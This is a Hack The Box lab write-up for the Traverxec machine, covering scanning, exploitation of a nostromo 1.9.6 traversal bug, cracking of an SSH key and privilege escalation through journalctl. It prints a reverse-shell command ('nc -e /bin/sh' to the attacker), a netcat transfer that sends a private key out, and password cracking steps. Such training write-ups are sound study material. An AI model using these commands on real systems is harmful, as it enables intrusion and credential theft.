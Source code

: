 For all the machines I do, I always start off with an nmap scan.  First a quick port scan and then a detailed port scan.
I start off by using nmap -p- -T4 10.10.10.165
This shows us that we have two ports open, 22 and 80.  On hack the box we don't need to brute force SSH, because there's other ways in.

Let's go ahead and get some version information about the services and the operating system.
nmap -p22,80 -A -O -sV -T4 10.10.10.165 -oA Traverxec
Here we are specifcally scanning the ports that we know are open with -p22,80, we use -A for OS detection, version detection, script scanning and traceroute, -sV specifcally for identifying service versions, -T4 for speed (-T5 is fastest, but tends to knock over hosts), -O is for Operating System detection again, and finally -oA Filename will put the output out in 3 different formats

Not shown: 65533 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 aa:99:a8:16:68:cd:41:cc:f9:6c:84:01:c7:59:09:5c (RSA)
|   256 93:dd:1a:23:ee:d7:1f:08:6b:58:47:09:73:a3:88:cc (ECDSA)
|_  256 9d:d6:62:1e:7a:fb:8f:56:92:e6:37:f1:10:db:9b:ce (ED25519)
80/tcp open  http    nostromo 1.9.6
|_http-server-header: nostromo 1.9.6
|_http-title: TRAVERXEC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 4.11 (92%), Linux 3.2 - 4.9 (92%), Linux 3.18 (90%), Crestron XPanel control system (90%), Linux 3.16 (89%), ASUS RT-N56U WAP (Linux 3.4) (87%), Linux 3.1 (87%), Linux 3.2 (87%), HP P2000 G3 NAS device (87%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (87%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
 
TRACEROUTE (using port 22/tcp)
HOP RTT      ADDRESS
1   52.86 ms 10.10.14.1
2   52.95 ms 10.10.10.165

Great we get the version of the http web server is 1.9.6.  Now we can visit the page and explore.  I always run dirbuster against web sites to look for the various directories.
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.10.165

After visiting http://10.10.10.165/admin we trigger an error and once again see that the version is nostromo 1.9.6.  Searching google we find some exploit code here https://www.exploit-dm.com/exploits/43837.
This says it is remote code execution, perfect exactly what we need.

Looking through the usage we need a target IP, target port, and a command to pass it.  The vulnerability is due to directory traversal where we can make a POST request using a few .0%d/ and eventually call a shell.
we are starting at a specific directory where the web server is sitting and moving up directories until we can then move into /bin where all the binaries are stored.
If you want to view the contents of the binary folder or any folder just visit http://10.10.10.165/.%0d./.%0d./.%0d./.%0d./ This link shows you the contents of root.
select the bin folder if you want to see what binaries you can run and home to see what users are on the machine.

To use the exploit code just save the code from exploit db into a file called cve2019_16278.py.  Then we want to run the command.  From looking at /bin we know what different binaries we can call from visiting here http://10.10.10.165/.%0D./.%0D./.%0D./.%0D./bin/.

The problem is a lot of them have 500 interal server error.  I made a list of all the files and then used foxy proxy and burp to capture the request of visiting http://10.10.10.165/.%0D./.%0D./.%0D./.%0D./bin/apt-cache
Any binary path would work here.
Once you open burp, go to the proxy tab and turn intercept on.  Also your foxy proxy needs to be configured to send traffic through burp which is listening in my case on 8080.
![Burp Intercepted Request](https://raw.githubusercontent.com/wkbrdr8522/HackTheBox-Writeups/master/Traverxec/Burp%20Intercepted%20Request.jpg?token=ALWTY6JDEVKFPW4MPOUNX2S6UB3SC)


Once we get the request the first line will look like this:  GET /.0%D./.0%D./.0%D./.0%D./bin/apt-cache.  Right click the request and send to Intruder.
In intruder choose Sniper as the Attack Type and highlight apt-cache or whatever is after /bin/ and click Add.  Then under the payloads tab, paste the list you made earlier of all the binaries and click start attack.
This could be slowed down if you are running the free Burp, which I am.

We notice that bash gets a 500 Status, but sh gets a 200, so let's use sh in our exploit.

First start a netcat listener on your kali machine, nc -nlvp 4444.  You can use any port here.
Now cd into the folder where your exploit code is saved at from above.  My code is called cve2019_16278.py, remember we need to give it a target IP, target port, and command.  I had to use quotes for commands to pass it the arguments.
python cve2019_16278.py 10.10.10.165 80 "nc -e /bin/sh 10.10.14.26 4444"
the IP after /bin/sh is your Hack The Box VPN and the port your netcat is listening on.

Check your connection and we have a shell!  Here is our initial access!
The problem is that our shell is pretty limited luckily we can upgrade it by using python!  python -c 'import pty; pty.spawn("/bin/sh")'
now we have an upgraded shell.
Check whoami and find our we are www-data.

Looking around check the /home directories to see who some of the users are, which the only one is david.  Check David's directory, we are denied access.
Let's look for configuration files by using the command:  find / -type f -iname '*.conf'
Here we are starting at the root directory and looking for files that are .conf.
We notice there'a file in /var/nostromo/conf/ titled nhttpd.conf.  There are some issues using commands on this machine, so you have to use the full path.  We want to cat out the file so do which cat to know the path.
Finally /usr/bin/cat /var/nostromo/conf/nhttpd.conf.  This file shows us that in home dirs there is a homedirs_public directory called public_www
Let's see what may be in that folder so do ls /home/david/public_www.  There a protected file area, maybe we can move into that directory.  cd /home/david/public_www/protected-file-area and list the files.  Great we have backup-ssh-identify-files.tgz!
Let's move this file over to our attacker machine, which we can do via netcat.  On kali run: nc -l -p 1234 > backup-ssh-identity-files.tgz.  Our machine is now waiting for that file.
Let's see where netcat lives on our target by doing which nc, it's in /usr/bin/nc. Now send that file to the attacker machine by doing /usr/bin/nc -w 3 10.10.14.26 1234 < backup-ssh-identity-files.tgz
Now we have the file on our target file, let's uncompress the file by doing tar zxvf backup-ssh-identity-files.tgz and cat out the id_rsa file that comes out.
Well the first thing we notice is the file is encrypted, but that's no issue for tools like John the Ripper!
We can use the program ssh2john which is a python program that can properly format the file so we can then crack the key for id_rsa.

I put this in my sbin folder on kali so I did cd /usr/sbin, then grab the file by doing wget https://github.com/magnumripper/JohnTheRipper/tree/bleeding-jumbo/run/ssh2john.py.
Now I copied the file over to my directory for HackTheBox where my id_rsa file is stored.  Then do python ssh2john.py id_rsa > crack.txt.  We are outputting this to crack.txt to later crack the password for the id_rsa file.  If you cat crack.txt you can see the id_rsa file that's formatted as id_rsa:$sshng etc.
Finally use JohnTheRipper to crack the key for that file by doing john --wordlist=/usr/share/wordlists/rockyou.txt crack.txt   Here we are telling john what wordlist to use and what file to try and crack.  It quickly finds the key to be hunter.
Now let's decrypt the id_rsa file by using openssl.   openssl rsa -in id_rsa -out dec.key It will prompt you for the password so enter hunter.
Finally ssh into the target by doing, ssh -i dec.key david@10.10.10.165
Great we can access the machine via SSH and we can cat out the user.txt file and submit that to HackTheBox!

Now starts privilege escalation!

I always start off by seeing what my user can do with sudo, but since we don't have david's password, we can't actually check this.

when you ls on david's home directory we notice a /bin folder which is interesting, so cd into /bin.  There's a server-stts.sh file, remember to run this we have to call bash with the full path.
/usr/bin/bash ./server-stats.sh.  This shows us the last 5 journal log lines, let's look at the actual file, cat server-stats.sh.
Notice at the bottoms the script calls /usr/bin/sudo and then executes journalctl as root!  Great, we are on to something!
journalctl is a command for viewing logs collected by systemd.

Since we know we can display 5 lines, you need to change the size of your terminal so it doesn't display all the lines at the bottom you see lines 1-6
enter !/bin/sh
we are in a root shell, use whoami to verify, and finally simply cat /root/root.txt and that's the machine!  

I hope you enjoyed my journey through Traverxec!











